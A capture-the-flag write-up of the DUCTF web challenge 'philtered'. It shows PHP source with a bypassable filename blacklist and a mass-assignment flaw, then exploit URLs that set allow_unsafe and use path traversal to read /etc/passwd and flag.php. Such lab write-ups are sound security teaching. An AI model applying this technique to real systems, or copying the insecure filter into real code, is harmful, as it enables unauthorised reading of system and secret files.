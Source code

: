# 🏷️ philtered

**Category:** Web  
**Description:**  
> Can you phigure this one out?

---

## 📦 Challenge Files
We are given a `src.zip` containing some PHP files.  
The most important files are:

**flag.php**
```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```
**index.php**
```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader(); 
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

We can see here that we have lfi with some filters 

```php
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}
```
To get a working lfi we can do this `/index.php?allow_unsafe=1&config[path]=../../../../../../../etc/passwd`

this will make allow_unsafe set to true -> `public $allow_unsafe = false;` to disable the blacklist


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/1.PNG?raw=true'>

also in this way we can control the path, getting the flag `/index.php?allow_unsafe=1&config[path]=../flag.php`

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/2.PNG?raw=true'>

Solve on remote : 


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/3.PNG?raw=true'>
FLAG : ``DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}``
